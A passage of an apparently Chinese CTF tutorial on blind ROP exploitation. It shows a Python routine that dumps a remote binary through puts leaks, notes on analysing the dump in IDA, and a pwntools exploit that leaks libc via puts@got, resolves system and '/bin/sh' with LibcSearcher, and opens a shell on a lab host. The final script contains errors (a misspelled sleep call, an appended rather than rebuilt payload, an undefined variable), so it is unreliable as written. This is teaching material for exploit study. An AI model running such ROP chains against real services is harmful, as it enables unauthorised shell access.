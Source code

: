 ```python
      return None

  def get_dump(length,pop_rdi,puts_plt,main):
    addr = 0x400000
    result = ''
    while  addr < 0x401000:
      data = leak_puts_addr(length,pop_rdi,puts_plt,addr,main)
      if data is None:
        continue
      else:
        result += data
        addr += len(data)
    with open('dump','wb') as f:
      f.write(result)
    print "process dumped!"

  # get_dump(length,pop_rdi,puts_plt,main)
```

将泄露的内容写到文件里用ida以binary模式打开， edit->segments->rebase program 将程序的基地址改为 0x400000，然后找到0x400545(puts_plt),将数据转化为汇编代码

![Alt](img/wiki-IntermediateRop6.png)
![Alt](img/wiki-IntermediateRop7.png)

说明puts@got为：0x601018
exp：

```python
  p = remote('172.17.0.2',10001)
  p.recvuntil("WelCome my friend,Do you know password?\n")
  payload = 'A'*length + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
  p.send(payload)
  data = p.recvuntil('\nWelCome', drop=True)  # 通过puts泄露地址，末尾会有\n,puts函数结束之后，会输出"WelCome my friend,Do you know password?\n"
  puts_addr = u64(data.ljust(8, '\x00'))
  libc = LibcSearcher('puts', puts_addr)
  libc_base = puts_addr - libc.dump('puts')
  system_addr = libc_base + libc.dump('system')
  binsh_addr = libc_base + libc.dump('str_bin_sh')
  payload += 'A'*length + p64(pop_rdi) + p64(binsh_addr) + p64(system) + p64(main)
  p.send(payload)
  slee(1)
  p.interactive()
```
